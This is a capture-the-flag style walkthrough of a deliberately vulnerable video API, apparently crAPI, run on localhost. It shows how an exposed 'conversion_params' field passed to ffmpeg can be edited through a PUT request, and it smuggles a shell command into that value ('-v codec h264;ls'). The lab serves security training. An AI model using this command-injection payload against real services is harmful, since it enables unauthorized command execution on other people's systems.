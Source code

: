 # API3_2019_Excessive_Data_Exposure

The application exposes sensitive data to unauthorized users. It lets an attacker access sensitive data and gain unauthorized access to the application.

## Challenge 5 - Find an API endpoint that leaks an internal property of a video

1. Analyze the [endpoints](endpoints.md) and focus on the `video` endpoints;
2. Use Postman to upload the sample video `car.mp4`. The request is a `POST` to `http://localhost:8888/identity/api/v2/user/videos` that sends the video with a `multipart/form-data` payload. The response is a JSON with the video's metadata, including the `id` and `conversion_params` properties.

```json
{
    "id": 34,
    "video_name": "car.mp4",
    "conversion_params": "-v codec h264",
    "profileVideo": "data:image/jpeg;base64,AAAAIGZ0eXBpc29tAAACAGlzb21pc28yYXZjMW1wNDEAAAAIZnJlZQADYhVtZGF0AAAACwYAB4D3MQAbd0CAAAAACAYBBAAACBCAAAABs2W4BAB/7IN6KT/...."
}
```

The `conversion_params` is particularly interesting because it contains the video's conversion parameters. The application uses the `ffmpeg` library to convert the video to a different format. The `conversion_params` property passes the conversion parameters to the `ffmpeg` library.
Attempt to access the video's metadata by sending a `GET` request to `http://localhost:8888/identity/api/v2/user/videos/34`. The response is a JSON with the video's metadata, including the `id` and `conversion_params` properties.

```json
{
    "id": 34,
    "video_name": "car.mp4",
    "conversion_params": "-v codec h264",
    "profileVideo": "data:image/jpeg;base64,AAAAIGZ0eXBpc29tAAACAGlzb21pc28yYXZjMW1wNDEAAAAIZnJlZQADYhVtZGF0AAAACwYAB4D3MQAbd0CAAAAACAYBBAAACBCAAAABs2W4BAB/7IN6KT/...."
}
```

Now try to modify the name of the video by sending a `PUT` request to `http://localhost:8888/identity/api/v2/user/videos/34` with the following payload:

```json
{
    "video_name": "newname.mp4"
}
```

Now try to modify the whole payload and send a PUT request appending something to the conversion parameters:

```json
{
    "id": 34,
    "video_name": "newname.mp4",
    "conversion_params": "-v codec h264;ls",
}
```

The response is a JSON with the video's metadata, including the `id` and `conversion_params` properties.

```json
{
    "id": 34,
    "video_name": "newname.mp4",
    "conversion_params": "-v codec h264;ls",
    "profileVideo": "data:image/jpeg;base64,AAAAIGZ0eXBpc29tAAACAGlzb21pc28yYXZjMW1wNDEAAAAIZnJlZQADYhVtZGF0AAAACwYAB4D3MQAbd0CAAAAACAYBBAAACBCAAAABs2W4BAB/7IN6KT/...."
}
```

Strike! Now it is all in the hands of your deepest hacker's fantasy how to leverage it.
